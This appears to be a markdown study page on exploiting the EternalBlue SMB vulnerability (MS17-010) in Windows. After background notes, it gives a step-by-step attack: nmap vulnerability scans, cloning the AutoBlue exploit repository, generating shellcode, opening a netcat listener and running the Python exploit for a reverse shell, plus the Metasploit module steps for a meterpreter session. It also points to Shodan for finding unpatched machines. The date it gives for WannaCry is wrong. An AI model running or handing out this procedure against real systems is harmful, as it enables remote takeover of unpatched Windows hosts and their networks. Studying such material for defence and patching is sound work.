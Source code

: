# Exploiting SMB: Eternal Blue
> EternalBlue (MS17-010 & CVE-2017-0144) is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently to the network the target sits on.

## Contents
- [Intro & Info](#intro--info)
  - [MS17-010 ExternalBlue Exploit](#ms17-010-externalblue-exploit)
  - [MS17-010 ExternalBlue Exploit... More Info](#ms17-010-externalblue-exploit-more-info)
  - [MS17-010 EternalBlue: Patches and Such](#ms17-010-eternalblue-patches-and-such)
  - [Shodan Search](#shodan-search)
  - [Exploit Tool: AutoBlue-MS17-010](#exploit-tool-autoblue-ms17-010)
- [Exploit Methods](#exploit-methods)
  - [Manual: AutoBlue](#manual)
  - [MetaSploit](#metasploit)

## Intro & Info

### MS17-010 ExternalBlue Exploit
- EternalBlue was developed by the NSA to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called The Shadow Brokers in 2017.
- The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specifically crafted packets that consequently facilitate the execution of arbitrary commands.
  - This could also be a reverse shell or meterpreter session in msfconsole.
  - And you get admin. So there's no priv esc to be had. You're in and you're in.
- One of the biggest MS Fubars of the last 10 to 15 years.

### MS17-010 ExternalBlue Exploit... More Info
- The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017, to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
- This vulnerability affects multiple version of Windows:
  -   Windows Vista, 7, 8.1, Windows 10
  -   Windows Server 2008, 2012, 2016
 
### MS17-010 EternalBlue: Patches and Such
- Microsoft released a patch for the vulnerability in March of 2017. However many users and companies have still not yet patched their systems.
- The EternalBlue exploit has an MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit, and it also has an exploit module that can be used to exploit the vulnerability on unpatched system.
- The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a priviliged meterpreter session on the target system.
- In addition to MSF modules, we can also manually exploit the vulnerability by utilizing publicly available exploit code.

### [Shodan Search](https://www.shodan.io/)
- You can do a Shodan search and find thousands of machines still running versions of Windows that are vulnerable (unpatched).

### Exploit Tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Manual Exploitation: Through the use of a tool called AutoBlue-MS17-010

## Exploit Methods
```
nmap -p 445 -sV -sC -O [target ip]
nmap -p 445 -sV --script smb-vuln-ms17-010 [target ip]
```
- First run a standard port scan with nmap (`-sV -sC -O`); should confirm smb and the o/s, etc. 
- Then run an nmap script (`smb-vuln-ms17-010`) to get info about the MS17-010 vulnerability on the target.
  - This will tell you if it is vulnerable or not.

### Manual: AutoBlue

#### 1. [Clone the Repo](https://github.com/3ndG4me/AutoBlue-MS17-010)
- Clone the repo on your local machine
  - Go to the repo, click "<> Code" in the upper right, select HHTPS, and copy the link.
  - On your local machine, where you want the subdir for the repo created.
  - Run: `git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git`
- Follow the instructions on Github (install dependencies, etc.)
- Remember: You'll have to give files executable permissions to run them.

#### 2. Generate Shell Code
- `cd` into the shell code directory of your repo clone.
- run the bash script `shell_prep.sh`
- Answer "yes" to the msvenom question. Then plug in the arguments when prompted.
- Regular shell, stageless
- That's it.  Pay attention to the .bin file name it spits out (`sc_x86.bin` or `sc_x64.bin`)
  - Do ***not*** use the `sc_x86_msf.bin` or the `sc_x64_msf.bin` files.

#### 3. Set up a Listener
```
nc -nvlp 1234
````
- On your local (attack) machine (obviously).
- `-n`  No DNS lookups
- `-v`  Verbose output
- `-l`  Listen for an incoming call
- `-p`  Port number

#### 4. Execute the Python Exploit Script
```
python eternalblue_exploit7.py [target ip] /path/to/shellcode/to/execute.bin
```
- Execute the ***appropriate*** Python script for your target system.
- When you hit enter you should get a reverse shell on your netcat listener. 

### MetaSploit

- Start msfconsole and search for eternalblue
  -  There are two types of modules you can use
  -  Auxiliary: scans, etc. Tells you whether the target is vulnerable or not
  -  Exploit: This one runs the exploit on a vulnerable system
-  `use exploit/windows/smb/ms17_010_eternalblue`
-  Note the default payload. If it's okay, no changes necessary. If not, change it.
-  Check and set options: LHOST, LPORT, RHOSTS, Payload, Target, etc.
  -  Remember to set your payload to 64-bit.
  -  Type in `set payload` and the tab to see the options you have to choose from.
  -  Use meterpreter first. Best options. 
-  `check` : you can run a check before the exploit to run the scanner built into this exploit
-  `run`
-  You should get a meterpreter session quickly
  - It might not work on the first try (or the first several tries).
  - Just keep running it. Swap payloads if you think that would change things. 

